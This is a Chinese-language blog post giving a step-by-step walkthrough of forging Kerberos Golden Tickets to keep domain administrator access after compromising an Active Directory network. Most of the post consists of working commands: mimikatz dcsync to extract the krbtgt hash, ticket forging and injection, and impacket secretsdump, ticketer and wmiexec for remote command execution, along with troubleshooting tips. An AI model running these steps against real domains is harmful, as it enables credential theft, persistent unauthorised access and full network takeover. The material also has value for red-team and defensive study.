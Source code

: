 ```yaml
---
layout: post
title: Pass the Ticket——Golden Ticket
date: 2018-12-26 23:30:00
tags: 域渗透
categories: hack 
author: PythonPig
---
```

* content
{:toc}


### \#0x00 写在前面 
域渗透过程简单来说：搞定域内某机器—获取域管登录凭证—登录域控导出所有用户hash—完毕  
导出域管hash或明文密码后并不一定万事大吉，如果所有域管全部更改密码后我们之前的导出的hash和密码就没用了，如果我们还有域内机器普通用户的权限的话，可以通过本文的方法找回域管权限。今天主要聊一下在域渗透后期如何利用Kerberos认证过程中的问题来维持域权限。  

{:refdef: style="text-align: center;"}
![golden ticket](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/golden%20ticket.jpg?raw=true)
{: refdef}
图片来源于:https://image.slidesharecdn.com




### \#0x01 原理简介
在Kerberos认证过程中，用户的Ticket都是由Kerberos用户krbtgt的密码Hash生成的，如果获得了krbtgt的密码hash，则可以伪造任意用户的Ticket，当然我们关心的是域管的Ticket。  
详细的Kerberos认证过程和Pass the Ticket的过程参见【参考】部分。  


### \#0x02 Golden Ticket利用之mimikatz

##### 一、获取伪造Ticket所需数据
伪造Ticket所需的数据主要有  
1、krbtgt用户的nt hash  
2、域SID   
3、域内机器普通用户权限  

krbtgt的hash值可以在域控上通过mimikatz获取，在域控上执行如下命令  
```
mimikatz.exe "lsadump::dcsync /user:domain_name\krbtgt /domain:domain_name.com"
```
![get krbtgt hash](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/get%20krbtgt%20hash_1.jpg?raw=true)  

从上图中可以得到nt hash：30eefxxxxxxxxxxxxxxxxxxxxxxxcbc4e和域SID：S-1-5-21-xxxxxxxxx-xxxxxxxxxxx1-xxxxxxxxxxxxx  

##### 二、伪造Golden Ticket并导入——Pass the Ticket
使用非域管账户登录域内已控的机器，在该机器上伪造域管Ticket。  
1、首先查看下系统是否已有tgt  
```
mimikatz # kerberos::tgt
```
![have no tgt](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/have%20no%20tgt.jpeg?raw=true) 
  
2、验证在没有tgt的情况下本地用户是否具有域管权限  
访问域内其他机器需要认证的共享文件  
![have no permission](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/have%20no%20permission_1.jpg?raw=true)  
没有访问的权限  

3、生成tgt  
这里以域domain_name 和拟伪造的域管AD_admin_user为例进行说明  
```
mimikatz # kerberos::golden /user:AD_admin_user /domain:domain_name /sid:S-1-5-21-168xxxxx-3676xxxxxx1-34xxxx0176 /krbtgt:30eef769c3xxxxxxxxxxxcbc4e /ticket:AD_admin_user.kiribi
```
命令执行完成后，将在本目录下生成文件AD_admin_user.kiribi  

4、导入tgt 
``` 
mimikatz # kerberos::ptt AD_admin_user.kiribi
```

5、查看导入是否成功  
```
mimikatz # kerberos::tgt
```
![import success](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/import%20success_1.jpg?raw=true) 
导入成功  

6、尝试访问域内其他机器上的文件  
```
dir \\vas-xxxxxx\c$
```
![success](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/success_1.jpg?raw=true) 
Pass the Ticket成功，可以以非域管账户执行域管命令，执行其他域管命令请参照【参考】  

### \#0x03 Golden Ticket利用之ticketer（跨平台利用）
在横向移动的过程中，使用mimikatz利用Golden Ticket时有以下限制：  
1、需要一台windows机器的权限且安装mimikatz  
2、使用mimikatz需要免杀  
在已控的可与域内主机（如域控）通信的linux机器上使用impacket的ticketer等工具可解决上面的问题。  

##### 一、需要的条件
* krbtgt account NT hash
* domain SID
* domain FQDN
* user to impersonate（一般选择域管）

用到的工具主要为impacket的ticketer.py  

##### 一、获取伪造Ticket所需数据
方法一（获取krbtgt hash）：  
```
secretsdump.py domainname/domain_admin_username@dc_ip -hashes domain_admin_username_lmhash:domain_admin_username_nthash -just-dc
```
方法二（获取krbtgt hash）：  
参见 [导出域内所有用户hash](https://pythonpig.github.io/2018/12/09/导出域内所有用户hash/)

方法三：  
```
mimikatz.exe "lsadump::dcsync /user:domain_name\krbtgt /domain:domain_name.com"
```

##### 二、伪造Golden Ticket
利用ticketer.py生成伪造的ticket  
```
ticketer.py -nthash krbtgt_account_NT_hash -domain-sid S-1-5-21-168xxxxxx-367xxxxxxx-3458xxxxx -domain domain_name user_to_impersonate
``` 
如  
```
ticketer.py -nthash 11111111111111111111111111111 -domain-sid S-1-5-21-11111111-222222222-33333333 -domain testdomainname Administrator
```
执行后生成user_to_impersonate.ccache
##### 三、导入并利用
```
1、export KRB5CCNAME=/absolute_path/user_to_impersonate.ccache
2、wmiexec.py -no-pass -k domain_name/user_to_impersonate@dc_hostname_or_dc_ip -dc-ip dc_ip
```
注意：  
1、这里的domain_name一定与生成ticket是用到的domain_name完全相同，否则会出现错误“[-] Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid)”  
2、这里的dc_hostname_or_dc_ip可以是目标主机的hostname也可以是目标主机的ip地址，使用ip地址是可能会出现错误“[-] Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)”，此时应尝试使用目标主机的hostname，若发起攻击的linux无法解析域名为ip地址时，请在/etc/hosts文件中添加ip地址和hostname的对应关系。  

impacket中的不少工具都支持上述方式利用Golden Ticket。  
注：因为利用Golden Ticket的这台linux机器并不是域内机器，与域控可能存在时间不同步的问题，一般当时间差大于5分钟时会发生"Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)"错误，解决办法如下：  
1、ntpdate dc_ip （与域控进行时间同步，域控一般作为ntp server）  
或  
2、获取域内主机或域控的时间,调整linux机器的时间与域控时间差在5分钟以内：date -s 20:08:00    

### \#0x04 参考
* [域渗透的金之钥匙](http://drops.wooyun.org/tips/9591)
* [域渗透——Pass The Ticket](http://drops.wooyun.org/tips/12159)
* [谈谈基于Kerberos的Windows Network Authentication[上篇]](http://www.cnblogs.com/artech/archive/2007/07/05/807492.html)
* [[原创]谈谈基于Kerberos的Windows Network Authentication - Part II](http://www.cnblogs.com/artech/archive/2007/07/07/809545.html)
* [敞开的地狱之门：Kerberos协议的滥用](https://www.freebuf.com/articles/system/45631.html)
* [How To Pass the Ticket Through SSH Tunnels](https://bluescreenofjeff.com/2017-05-23-how-to-pass-the-ticket-through-ssh-tunnels/)

